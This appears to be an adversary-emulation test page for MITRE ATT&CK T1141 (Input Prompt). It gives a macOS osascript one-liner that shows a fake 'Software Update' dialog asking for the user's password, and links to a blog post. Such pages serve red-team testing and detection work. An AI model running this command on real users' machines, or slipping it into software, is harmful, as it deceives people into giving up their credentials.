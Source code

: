 # Input Prompt

MITRE ATT&CK Technique: [T1141](https://attack.mitre.org/wiki/Technique/T1141)


### Prompt User for Password (Local Phishing)

    osascript -e 'tell app "System Preferences" to activate' -e 'tell app "System Preferences" to activate' -e 'tell app "System Preferences" to display dialog "Software Update requires that you type your password to apply changes." & return & return  default answer "" with icon 1 with hidden answer with title "Software Update"'

Reference:

http://fuzzynop.blogspot.com/2014/10/osascript-for-local-phishing.html
